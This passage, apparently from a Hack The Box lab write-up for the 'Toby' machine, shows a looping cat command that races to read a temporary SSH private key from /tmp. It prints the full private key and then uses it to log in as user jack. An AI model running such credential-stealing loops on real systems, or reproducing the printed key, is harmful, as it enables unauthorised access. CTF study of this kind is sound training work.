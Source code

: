 Checking for the file it is not there anymore, but running a loot to cat all files with the same naming convention lets us retrieve a private ssh key.

```
jack@mysql:~$ while :;do cat /tmp/tmp*/key; done 2>/dev/null
-----BEGIN OPENSSH PRIVATE KEY-----
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
0jZ2DP0AFwApsAAAAIcm9vdEBsYWIBAgM=
-----END OPENSSH PRIVATE KEY-----
^C^C
jack@mysql:~$ ^C
```

This key works to log into the host as the user jack and we can grab the user flag.

```
$ ssh -i id_rsa jack@toby.htb
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun  7 Nov 20:51:01 UTC 2021

  System load:                      0.19
  Usage of /:                       61.7% of 16.60GB
  Memory usage:                     34%
  Swap usage:                       0%
  Processes:                        295
  Users logged in:                  1
```